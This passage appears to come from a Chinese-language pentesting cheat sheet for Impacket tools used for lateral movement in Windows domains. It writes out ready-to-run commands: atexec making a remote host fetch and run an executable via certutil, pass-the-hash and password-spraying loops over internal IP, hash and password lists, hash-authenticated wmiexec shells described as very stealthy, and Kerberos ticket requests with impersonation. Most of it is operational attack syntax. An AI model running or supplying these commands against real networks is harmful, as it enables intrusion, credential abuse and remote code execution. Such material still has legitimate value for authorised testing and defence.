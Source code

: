   ```bash
  ./atexec.py test/administrator:1234@192.168.124.136 “certutil -urlcache -split -f http://192.168.124.136/1.exe 2.exe”
  
  ./atexec.py -hashes :7ce21f17c0aee7fb9ceba532d0546ad6 test/administrator@192.168.124.136 1.exe
  
  ## hash喷洒攻击
  # 内网机器遍历做hash传递验证,ips.txt内容为内网ip，每段一条
  FOR /F %i in (ips.txt) do atexec.exe -hashes :3dbde697d71690a769204beb12283678 ./administrator@%i whoami
  
  # 指定主机ntlm hash遍历验证，hashes.txt为已知ntlm hash内容，每段一条
  #文件内部的hash格式应该为":nthash"或者"lmhash:nthash",如果只采用nthash切记加一个冒号":"
  FOR /F %i in (hashes.txt) do atexec.exe -hashes %i ./administrator@192.168.23.99 whoami
  
  # 内网机器遍历做密码验证，passwords.txt为已知密码内容，每段一条
  FOR /F %i in (passwords.txt) do atexec.exe ./administrator:%i@192.168.23.99 whoami
  
  # 指定主机密码遍历验证,ips.txt内容为内网ip，每段一条
  FOR /F %i in (ips.txt) do atexec.exe ./administrator:123@%i whoami
  ```

  

- wmiexec.py：通过Windows Management Instrumentation使用的半交互式shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。

  ```bash
  # 语法: ./wmiexec.py [[domain/] username [: password] @] [Target IP Address]
  ./wmiexec.py SERVER/Administrator: T00r@192.168.1.140
  
  
  ./wmiexec.py -hashes :7ce21f17c0aee7fb9ceba532d0546ad6 test/administrator@172.16.99.146
  
  ```

  

- dcomexec.py：类似于wmiexec.py的半交互式shell，但使用不同的DCOM端点。目前支持MMC20.Application，ShellWindows和ShellBrowserWindow对象。

- GetTGT.py：指定密码，哈希或aesKey，此脚本将请求TGT并将其保存为ccache

- GetST.py：指定ccache中的密码，哈希，aesKey或TGT，此脚本将请求服务票证并将其保存为ccache。如果该帐户具有约束委派（具有协议转换）权限，您将能够使用-impersonate参数代表另一个用户请求该票证。

  ```bash
  python3 getST.py -dc-ip 172.24.1.99 -spn krbtgt/test.com@test.com test/zhujiayu:123
  
  ```

  

- GetPac.py：此脚本将获得指定目标用户的PAC（权限属性证书）结构，该结构仅具有正常的经过身份验证的用户凭据。它通过混合使用[MS-SFU]的S4USelf +用户到用户Kerberos身份验证组合来实现的。

- GetUserSPNs.py：此示例将尝试查找和获取与普通用户帐户关联的服务主体名称。

- GetNPUsers.py：此示例将尝试为那些设置了属性“不需要Kerberos预身份验证”的用户获取TGT（UF_DONT_REQUIRE_PREAUTH).输出与JTR兼容
